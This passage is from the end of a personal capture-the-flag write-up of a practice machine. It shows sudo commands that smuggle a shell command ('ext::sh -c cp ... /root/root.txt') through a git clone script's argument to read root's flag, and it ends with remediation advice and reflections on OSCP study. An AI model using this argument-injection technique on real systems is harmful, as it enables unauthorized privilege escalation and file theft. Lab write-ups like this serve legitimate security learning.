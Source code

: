 I had to monkey around with this quite a bit. My solution was NOT elegant but I was able to reach in and get the flag:
```
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c cp% /root/root.txt% /tmp/root.txt'
```
of course I did not have permissions to view the file so I had to fix that:
```
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% 777% /tmp/root.txt'
```
and then I was able to get the flag:
![[Pasted image 20250610115500.png]]

Right after I looked at 0xdf's solution and his is way better - actually elevating to the root user instead of just reaching in and grabbing the flag. 

But after all of that, I got it.

# Remediation

How should this be fixed?
1. SSRF - there are several different ways to handle retrieving that file that do not involve calling to an internal service to return it. In a docker architecture - where the containers are all on an independent docker network this would be fine. On a bare metal server though, it is not. To fix this I would instead expose the Python API publicly and add sanitization code to requests to it. This code could handle the downloads. OR if the Python API is not in production (which it was not in the current state of the box) then edit the nginx conf file in sites-enabled so that you cannot route to it.
2. Credentials in plain-text files. In both cases for the dev user and prod user. These creds should be separate from those that are used to SSH into the box. I also did not understand why the box had a "dev" user and a "prod" user. User accounts need to tie to actual people or entities and their access needs to be managed by roles. There should have been users placed in dev and prod groups with those groups have requisite rights over portions of the server.
3. The clone_prod_changes.py script. I am not sure what the utility of this script is. Other than that, I could not pick on the Systems Administrator too much here. It is very very difficult to keep track of every package used, their versions and related vulnerabilities. This server was also vulnerable to Dirty Cow that is a much more severe vulnerability than the Python git library.

# Conclusion

It was good to do a box on adventure mode over guided mode. I am a little frustrated with myself that I needed help at the 2 main "breakthroughs" on the box: the SSRF and the empty .git directory. What I did not get out of the CPTS course is how I can better identify and move quickly on these vulnerabilities. For the OSCP, I won't have a ton of time to enumerate and guess I'll need to be consistently moving and executing. It looks like I'll need more practice.